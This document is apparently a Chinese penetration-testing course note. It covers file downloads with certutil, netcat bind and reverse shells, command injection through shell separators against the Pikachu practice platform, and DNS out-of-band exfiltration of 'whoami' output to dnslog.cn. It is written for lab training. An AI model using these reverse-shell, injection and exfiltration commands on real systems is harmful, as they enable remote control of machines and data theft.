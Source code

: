 Day05 基础入门-反弹SHELL&不回显带外&正反向连接&防火墙出入站&文件下载
=
案例
-
1.	文件上传下载-解决无图形化&解决数据传输
2.	反弹Shell命令-解决数据回显&解决数据通讯
3.	防火墙绕过-正向连接&反向连接&内网服务器
4.	防火墙组合数据不回显-ICMP带外查询dnslog

#常规基本渗透命令详解
-
常用命令  
<https://blog.csdn.net/weixin_43303273/article/details/83029138>  

#实用案例1:文件上传下载-解决无图形化&解决数据传输  
命令生成:  
<https://forum.ywhack.com/bountytips.php?download>  
Linux : wget curl python rubyperl java等  
Windows : PowerShell Certutil Bitsadmin msiexec mshta rundll32等

Certutil本质是一个管理证书、证书服务和密钥存储的工具，不过黑客们被玩坏了，可以用这个来下载文件。
certutil.exe -urlcache -split -f <http://example.com/file.txt> file.txt

#实用案例2:反弹shell命令-解决数据回显&解决数据通讯命令生成:  
<https://forum.ywhack.com/shell.php>  

Netcat
-
（简称nc）是一款功能强大的网络工具，在网络管理、渗透测试以及安全评估等领域有着广泛应用，常被称为 “网络瑞士军刀”。  
Netcat 可以用于远程执行命令。  
可在此处下载Windows版本的Netcat  
<https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip>

1、正向连接 本地监听，等待对方连接  
-
Linux控制Windows  
>Windows绑定CMD到本地5566端口
>```cmd
>ncat -e cmd -lvp 5566
>```
>Linux主动连接目标
>```bash
>ncat ip 5566
>```
Windows控制Linux  
>绑定sh到本地5566端口
>```bash
>ncat -e /bin/sh-lvp 5566  
>```
>主动连接目标 
>```cmd
>nc ip 5566  
>```

2、反向连接 主动给出去，对方监听  
-
 	Linux主动给出  
ncat -e /bin/sh 接收者IP 5566  
Linux绑定sh到目标5566端口  
nc -lvvp 5566  
Windows监听5566连接  

 	Windows主动给出  
ncat -e cmd 接收者IP 5566  
Windows绑定CMD到目标5566端口   
nc -lvvp 5566  
Linux监听5566连接  
受制于NAT这个万恶的东西， 内网的机器只能主动找其他主机。  

	|	||	&	&&	；	``
Linux	可用
Windows	可用	不可用

1.	| （管道符号）
例如，使用管道可以将文件内容通过`cat`命令输出，并通过`grep`命令进行筛选：
cat file.txt | grep "keyword"
https://blog.csdn.net/zhangkunls/article/details/143167921
2.	||（逻辑或）
command1 || command2
如果 command1 执行失败（返回一个非零状态码），则 command2 会被执行。如果 command1 执行成功（返回零状态码），则 command2 不会被执行。
3.	&&（逻辑与）
https://blog.csdn.net/dessler/article/details/142343304
4.	&（后台任务）
在Linux中，当你在命令的末尾添加“&”时，该命令会在后台运行，这样你就可以继续在同一个终端上进行其他操作，而不会因为该命令的执行而被阻塞。
5.	；
Linux系统中的分号（;）用于在命令行中分隔多个命令，使得这些命令可以顺序执行。
6.	``
``中的内容执行后替换

实战：
Windows Server 部署Pikachu漏洞练习平台，打开RCE-exec“ping”
1、	下载源码
2、	添加网站并上传源码
3、	找到Pikachu漏洞练习平台中的RCE-exec“ping”
4、	利用符号进行漏洞利用

关键词：防火墙的出站和入站限制

存在漏洞，但是数据不回显：  
1、	反弹shell  
2、	带外查询  

DnsLog
-
<http://www.dnslog.cn/>是一个提供 DNSLog 服务的网站。  
DNSLog 是一种利用 DNS 协议记录相关信息来进行安全测试、漏洞挖掘等的技术手段。在安全测试场景中：  
当测试人员想要探测目标系统是否存在某些漏洞（如命令执行漏洞）时，若在目标系统中执行的命令能够触发向特定域名发起 DNS 查询请求，通过在 “dnslog.cn” 这类平台上点击”Get SubDomain”创建唯一标识的域名，就可以通过查看该平台上的 DNS 查询记录，确认目标系统是否执行了特定命令，以此来判断漏洞是否存在。  

Windows的cmd不能使用``，所以我们可以用powershell来定义变量：  
输出当前用户
```powershell
$a=whoami  
echo $a  
```
输出当前用户和ip配置
```powershell
$x=whoami;$y=ipconfig  
$x+$y  
```
作用是把$x中的\替换成x，并赋值给$xx变量  
```powershell
$xx=$x.replace('\','x');  
```
上面的语句中分号是作为每条命令的结束，这些功能是cmd所不具备的。  


当数据不能回显时  
看一下是否能正确执行命令  
在pikachu漏洞练习平台模拟让服务器向dnslog.cn发起请求  
Rce-ping构造恶意语句  
```powershell
127.0.0.1 | powershell.exe $a=whoami;$aa=$a.replace('\','x');$bb='.dbwph8.dnslog.cn';$c=$aa+$bb;ping $c;  
```
这时候刷新，dnslog就会出现记录  
